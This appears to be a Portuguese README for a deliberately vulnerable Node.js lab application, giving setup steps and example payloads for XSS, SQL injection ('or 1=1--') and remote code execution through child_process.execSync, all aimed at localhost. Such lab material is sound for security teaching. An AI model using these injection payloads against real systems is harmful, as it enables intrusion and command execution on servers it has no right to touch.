 # Vulnerable Node Application
- [Vulnerable Node Application](#vulnerable-node-application)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)

## Execução

```
$ unzip VulnNode-Nome.zip
$ cd VulnNode-Nome
$ docker-compose up
```

![Docker Compose em execução](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

```
http://localhost:3000
``````
![Vulnerable Node Application](images\VulnerableNodeApplication.png)

## Vulnerabilidades 
### XSS
![Cross-Site Script](images\xss.png)
```
/?userInput=<script>alert(1)</script>
```
### SQL Injection

http://localhost:3000/users?username=kid&access-token=CHAVE_MEGASECRETA_QsriGQQbNsLykkfdci9TVutzbT9pfGZpSRMQ6FuhQNeYnZw6 

![SQL Injection](images\sqli.png)
```
/users?username='+or+1=1--&access-token=' 
```
### RCE
![Remote Code Execution](images\rce.png)
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
```